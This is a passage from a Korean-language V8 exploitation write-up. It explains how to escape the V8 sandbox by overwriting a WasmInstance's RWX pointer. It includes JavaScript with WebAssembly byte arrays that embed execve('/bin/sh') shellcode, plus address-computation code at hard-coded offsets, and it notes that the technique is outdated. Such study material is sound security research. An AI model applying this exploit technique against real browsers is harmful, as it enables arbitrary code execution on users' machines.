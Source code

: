 이제 exploit을 위한 primitives를 모두 구현하였습니다. 이들을 이용해 v8의 mitigation인 sandbox(ubercage)를 우회해 보겠습니다.

우선 이 Sandbox를 우회하기 위해서는 WebAssembly를 사용할 것입니다.

WebAssembly를 사용하는 이유는, 쉘코드를 실행시키려면, 실행 권한이 있는 영역으로 포인터를 옮겨야 합니다. 이 영역은 최적화되어 실제로 동작하는 코드가 있는 코드 영역에도 있지만, WebAssembly로 인스턴스를 생성할 때, rwx영역이 생기게 됩니다. 그리고, 이 WasmInstance 안에, RWX영역으로 향하는 포인터가 존재하기 때문에, 이를 overwrite함으로써 우리가 원하는 곳으로 실행 흐름을 옮길 수 있습니다.

참고 : 이 exploit 방법은 sandbox가 추가적인 업데이트가 이뤄지기 전에 사용되었던 익스플로잇 방법입니다. 현재는 WasmInstance 안에 RWX영역 포인터를 저장하지 않는 방법으로 바뀌었기 때문에, 새로운 익스플로잇 방법을 구상해야 합니다. 그리고 각 주소들이 위치하는 offset 역시 v8의 버전별로 다르기 때문에 이 역시 직접 분석하여 얻어야합니다.

이 익스플로잇을 하기 위해, 두개의 WasmInstance를 생성하여, 한개에는 쉘코드를 담고, 나머지 한개는 RWX 포인터를 쉘코드의 위치로 덮을 것입니다. 이렇게 하면, 후자의 인스턴스로 만든 함수를 실행할 때, 변조된 RWX포인터로 이동하게 되어, 쉘코드가 실행됩니다.

```jsx
let shell_wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0, 1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 133, 1, 1, 130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0, 0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98, 105, 110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 137, 231, 144, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 49, 246, 72, 49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144, 144, 235, 11, 57, 3, 0, 65, 42, 11
  ]);

let shell_wasm_module = new WebAssembly.Module(shell_wasm_code);
let shell_wasm_instance = new WebAssembly.Instance(shell_wasm_module);
let shell_func = shell_wasm_instance.exports.main;

shell_func();

let shell_wasm_instance_addr = addrof(shell_wasm_instance);
let shell_wasm_rwx_addr = v8h_read64(shell_wasm_instance_addr + 0x48n);
let shell_func_code_addr = shell_wasm_rwx_addr + 0xB40n;
let shell_code_addr = shell_func_code_addr + 0x2Dn;
```

```jsx
const tbl = new WebAssembly.Table({
        initial: 2,
        element: "anyfunc"
});

const importObject = {
        imports: { imported_func : (n) => n + 1, },
        js: { tbl }
};

var wasmCode = new Uint8Array([
0,97,115,109,1,0,0,0,
1,15,3,96,1,124,1,124,96,2,124,124,0,96,0,1,125,
2,36,2,7,105,109,112,111,114,116,115,13,105,109,112,111,114,116,101,100,95,102,117,
110,99,0,0,
2,106,115,3,116,98,108,1,112,0,2,
3,3,2,1,0,
7,21,2,4,109,97,105,110,0,1,10,109,97,107,101,95,97,114,114,97,121,0,2,
10,31,2,22,0,68,144,144,144,144,72,137,16,195,68,204,204,204,204,204,204,
233,67,26,26,11,6,0,
32,0,16,0,11
]);

let wasmModule = new WebAssembly.Module(wasmCode);
let wasmInstance = new WebAssembly.Instance(wasmModule, importObject);

let wasmInstance_addr = addrof(wasmInstance);
```